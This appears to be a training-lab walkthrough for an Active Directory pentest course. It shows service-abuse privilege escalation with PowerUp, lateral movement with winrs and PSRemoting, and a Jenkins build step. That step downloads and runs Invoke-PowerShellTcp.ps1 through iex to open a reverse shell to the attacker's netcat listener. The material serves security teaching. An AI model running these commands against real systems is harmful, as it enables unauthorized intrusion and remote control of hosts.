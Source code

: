 # Page 1

* Exploit a service on dcorp-studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentx has local administrative access.
* Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

We can use the **Powerup** from PowerSploit module (or WinPEAS) to check for any privilege escalation path:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

Let's use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group:

```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
<# Expected output
ServiceAbused Command
------------- -------
AbyssWebServer net localgroup Administrators dcorp\studentx /add
#>
```

{% hint style="warning" %}
Remember to logoff and logon again to have local administrator privileges!
{% endhint %}

Identify a machine in the domain where studentx has local administrative access use **Find-PSRemotingLocalAdminAccess.ps1**:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

So, studentx has administrative access on dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user:

```powershell
winrs -r:dcorp-adminsrv cmd
set username
set computername
hostname
```

We can also use PowerShell Remoting:

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$env:username
hostname
```

In Jenkins console we can add builds using Invoke-PowerShellTcp.ps1 reverse tcp shell hosted using hfs.exe:

```powershell
#1 from attacker client
hfs.exe C:\AD\Tools\Invoke-PowerShellTcp.ps1
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
#Remember to add a firewall exception

#From Jenkis console
#Option1
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
#Option2
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
$env:username
$env:computername
ipconfig
```

